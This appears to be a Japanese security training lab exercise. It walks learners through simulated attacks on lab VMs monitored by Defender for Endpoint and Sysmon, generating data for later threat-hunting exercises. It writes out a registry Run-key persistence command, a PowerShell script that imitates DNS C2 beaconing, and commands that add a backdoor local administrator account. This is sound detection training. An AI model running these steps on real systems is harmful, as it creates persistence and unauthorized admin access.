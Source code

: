 # モジュール 7 - ラボ 1 - エクササイズ 5 - 攻撃の実施

### タスク 1: Defender for Endpoint によって構成したWindowsを攻撃します。

このタスクでは、Microsoft Defender for Endpoint が構成されているホストに対して攻撃を実行します。

1. 管理者として **WIN1** 仮想マシンにログインします。パスワードは **Pa55w.rd** です。  

2. タスクバーの検索で、*Command* と入力します。  検索結果にコマンドプロンプトが表示されます。  コマンドプロンプトを右クリックして、**管理者として実行**を選択します。表示されるユーザーアカウント制御のプロンプトを確認します。

3. コマンドプロンプトで、各行の後に Enter キーを押して、各行にコマンドを入力します。
```
cd \
mkdir temp
cd temp
```
4. 攻撃 1 -このコマンドをコピーしてコマンド プロンプト アプリに実行します。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻撃 3 - 次のコマンドをコピーして実行します。

```
notepad c2.ps1
```
**はい** を選択して新しいファイルを作成し、以下の PowerShell スクリプトを c2.ps1 にコピーして**保存**を選択します。

**注** 仮想マシンへの貼り付けには長さの制限がある場合があります。  これを 3 つのセクションに貼り付けて、すべてのスクリプトが仮想マシンに貼り付けられるようにします。  スクリプトがメモ帳 c2.ps1 ファイル内のこれらの手順のように見えることを確認してから、メモ帳ファイルを保存します。

```


param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)


$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)

$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        
        $x2 = 1

    }
    else
    {
        $x2 = $x2 + 1
    }
    
    if ($x3 -eq 7 )
    {

        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout

        $x3 = 1
        
    }
    else
    {
        $x3 = $x3 + 1
    }


    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)

```

コマンドプロンプトで、次のように入力し、各行の後に Enterキーを押して各行にコマンドを入力します。
```
powershell
.\c2.ps1
```
**注:** 解決エラーが表示されます。これは予想されることです。
このコマンド/パワーシェルスクリプトをバックグラウンドで実行します。ウィンドウを閉じないでください。  コマンドは、数時間ログエントリを生成する必要があります。  このスクリプトの実行中に次のタスクや次の演習に進むことができます。  このタスクで作成したデータは、後で脅威の捜索ラボで使用します。  このプロセスでは、大量のデータや処理を作成することはありません。

### タスク 2: Sysmon で構成された攻撃ウィンドウ

このタスクでは、セキュリティイベントコネクタが構成され、Sysmon が構成されているホストに対して攻撃を実行します。

1. 管理者として **WIN2** 仮想マシンにログインします。パスワードは **Pa55w.rd** です。  

2. タスクバーの検索で、*CMD* と入力します。  検索結果にコマンド プロンプトが表示されます。  コマンド プロンプトを右クリックして、**「管理者として実行」** を選択します。  表示される 「承認」 および 「ユーザー アカウント制御」 プロンプト。

3. コマンドプロンプトで、各行の後に Enter キーを押して、各行にコマンドを入力します。
```
cd \
mkdir temp
cd \temp
```

4. 攻撃 1 - このコマンドをコピーしてコマンド プロンプト アプリに実行します。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

5. 攻撃 2 - このコマンドをコピーして実行し、各行の後に Enter キーを押して各行にコマンドを入力します。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

## 演習 6 に進みます。
